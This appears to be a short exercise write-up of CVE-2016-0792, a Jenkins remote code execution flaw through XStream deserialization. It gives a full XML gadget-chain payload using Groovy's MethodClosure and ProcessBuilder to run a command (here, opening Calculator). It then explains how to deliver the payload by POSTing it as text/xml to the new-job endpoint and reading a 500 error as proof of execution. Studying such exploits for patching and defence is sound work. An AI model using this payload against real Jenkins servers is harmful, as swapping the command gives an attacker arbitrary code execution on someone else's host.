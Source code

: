 # CVE-2016-0792

### Introduction

This issue was discovered in Jenkins and allow an attacker to gain remote code execution on the server hosting Jenkins.

Jenkins supports serialised objects based on **XStream**. Previously, it was possible to get code execution using `java.beans.EventHandler`but it's no longer the case.

Jenkins embeds few third party libraries that include Gadget that can provide an attacker with remote code execution. The payload  illustrated in this exercise relies on `Groovy`:

```xml
<map>
  <entry>
    <groovy.util.Expando>
      <expandoProperties>
        <entry>
          <string>hashCode</string>
          <org.codehaus.groovy.runtime.MethodClosure>
            <delegate class="groovy.util.Expando"/>
            <owner class="java.lang.ProcessBuilder">
              <command>
                <string>open</string>
                <string>/Applications/Calculator.app</string>
              </command>
            </owner>
            <method>start</method>
          </org.codehaus.groovy.runtime.MethodClosure>
        </entry>
      </expandoProperties>
    </groovy.util.Expando>
    <int>1</int>
  </entry>
</map>
```

### Exploit

* when we create a post request for a `new job` in jenkins dashboard.

  its name goes in a arguement called `?name=` and if same name provided twice it triggers an error.

  So, the solution is remove the whole post request and provide

   `?name=anyuniquename` arguement in the url itself and paste the above **XML payload** in the body.

  change **Content type: text/xml**

  Now it will 500 error in the response that means there is an error in the command after it is executed, So that means our code is already executed.